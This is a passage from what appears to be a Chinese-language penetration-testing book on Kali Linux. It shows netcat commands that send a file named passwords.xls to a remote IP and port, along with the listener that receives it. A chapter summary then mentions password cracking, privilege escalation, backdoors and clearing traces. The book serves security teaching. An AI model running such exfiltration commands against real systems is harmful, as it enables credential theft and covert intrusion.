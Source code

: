 从源系统，我们输入以下内容：

```
type passwords.xls | nc <remote IP> <remote port>  
```

这个命令表示要显示`passwords.xls`文件，然后将其管道(`|`)到 netcat (nc)到`192.168.1.104`远程 IP 地址通过端口`6996`。

从目标系统，我们输入以下内容：

```
nc -l -p 6996 > passwords.xls 
```

这个命令表示要在端口(`p`)`6996`上创建一个监听器(`l`)，然后将在此监听器上接收到的数据发送到名为`passwords.xls`的文件中。

# 总结

我们开始时看了如何利用在前几步中收集的有关目标的信息。在前几章中收集的信息是通过与目标的直接交互来逐渐增加的。我们的目的是获得更多信息，以便在尝试更少侵入性的情况下利用系统。

通常我们会先破解或恢复密码，以获取账户访问权限，然后尝试通过特权升级来获得对系统的额外访问权限。有了这种增加的访问权限，就有可能执行更具侵入性的任务。攻击者通常可能尝试执行的常见操作包括安装软件、安装远程软件，或者创建其他后门以便以后访问。

在下一章中，我们将学习如何清除痕迹并从目标系统中删除证据。

# 进一步阅读

请参考 Kali Linux/Kali NetHunter 工具列表：[`tools.kali.org`](http://tools.kali.org)。
